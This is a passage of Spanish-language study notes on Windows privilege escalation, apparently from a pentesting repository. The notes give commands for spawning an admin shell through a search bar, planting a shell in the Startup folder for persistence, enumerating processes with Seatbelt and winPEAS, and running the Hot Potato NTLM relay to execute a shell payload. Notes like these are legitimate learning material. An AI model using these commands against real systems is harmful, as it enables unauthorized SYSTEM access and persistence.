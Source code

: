 ```
> tasklist /v | findstr mspaint.exe...

- En la barra de busqueda 
	> file://c:/windows/system32/cmd.exe
```

> Con esto nos hemos podido aprovecharnos de la barra de busqueda en spawnear una shell admin

## Startup Apps

- Cada usuario puede definer los apps que quieren que se ejecuten al iniciar el ordenador el directorio para ver donde se almacena todo estos datos es en C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
- Si podemos tener los permisos de escritura en este directorio podemos meter una shell en ese directorio para cuando se ejecuta cuando el ordenador es encendido

> Es necesario crear un shortcut en esa carpeta en el cuál tenemos que indicar la ejecución de nuestra shell

```
> accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

> csscript SHORTCUT.vbs

```


## Apps Exploits

- Enumerar todo los programas, usa exploitdb para veer si una app tiene un epxloit de escalada de privilegio

```

> taskslist -v

> seatbelt.exe NonstandardProcesses

> winPEASS quiet procesinfo

```


## Hot Potato

- Hot Potato es una vulnerabilidad de spoofing con un NTLM relay attack para ganar privilegios del sistema el ataque indica a Windows autendicarse como SYSTEM user a un servidor de HTTP falso usando el NTLM, entonces el NTLM es usabada en el SMB para un RCE

```

potato.exe -ip x.x.x.x -cmd "C:\PrivEsc\shell.exe" -enable_http server true -enable_defender true -enable_spoof true -enable_exhaust true

```
